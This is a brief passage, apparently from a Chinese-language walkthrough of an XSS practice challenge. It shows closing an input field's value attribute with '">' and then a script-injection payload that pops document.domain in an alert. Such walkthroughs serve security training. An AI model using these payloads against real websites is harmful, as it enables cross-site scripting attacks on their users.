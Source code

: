 提交参数

```
">hello
```

查看回显

```
<input type="text" name="p1" maxlength="15" size="30" value="">
hello"> 
```

![查看回显](./../../../../images/XSS%20Challenges/%E6%9F%A5%E7%9C%8B%E5%9B%9E%E6%98%BE.png)

> 发现成功闭合，"> 生效
>
> 二者都可以使用

尝试提交 js 代码

```
"><script>alert(document.domain);</script>
```

